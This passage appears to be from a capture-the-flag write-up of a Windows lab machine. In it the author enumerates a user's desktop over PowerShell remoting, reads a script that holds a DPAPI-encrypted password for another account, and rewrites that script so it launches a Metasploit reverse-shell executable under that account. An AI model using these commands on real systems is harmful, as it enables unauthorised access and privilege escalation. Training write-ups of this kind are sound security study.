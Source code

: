 User `awallace` is also member of "Managers" group.
We really need is a real shell as `imonks` to run more commands. Lets keep enumerating the machine.
If we check the `imonks` desktop, we will find a powershell script, `wm.ps1`:
```PowerShell
PS C:\Utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -ScriptBlock {ls ../desktop}

Directory: C:\Users\imonks\desktop

Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-ar---        25/03/2022     00:49             34 user.txt                           ATSSERVER                         
-a----        11/01/2022     18:04            602 wm.ps1                             ATSSERVER 


PS C:\Utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -ScriptBlock {cat ../desktop/wm.ps1}

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

If we execute this script, then it sets a secure password, and execute `Get-Volume` from `jmorgan` user's context. We have to edit it script and modify the invoke command.

```PowerShell
PS C:\Utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock{((cat "c:\users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\reverse.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $cred
```

This command will replace the `Get-Volume` string with `cmd.exe /c c:\utils\reverse.exe` We already have `reverse.exe` in utils directory. So upon execution we get the reverse connection on metasploit. Let’s read the contents of file to make sure our cmd is good to go:
```PowerShell
PS C:\Utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -ScriptBlock {cat ../desktop/wm.ps1}

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {cmd.exe /c c:\utils\reverse.exe} -ComputerName Acute-PC01 -Credential $creds
```
